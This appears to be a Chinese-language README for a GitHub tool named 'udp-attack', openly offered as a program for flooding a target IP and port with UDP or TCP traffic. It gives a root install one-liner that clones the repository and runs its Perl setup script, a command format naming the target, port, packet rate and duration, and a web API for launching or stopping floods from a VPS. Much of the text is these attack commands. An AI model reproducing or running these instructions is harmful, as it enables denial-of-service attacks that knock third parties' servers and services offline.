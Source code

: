 # udp-attack 一个简单的udp攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
现在开始安装，，，
<br>
<pre>cd /root && yum install -y git wget curl net-tools && git clone https://github.com/KLDGodY/udp-attack.git && cd udp-attack && mv ./* ../ && cd ../ && perl setup.pl</pre>
<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，php安装方式网上自己找，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodynb">@kldgodynb</a><br>欢迎各位dl加入，，，
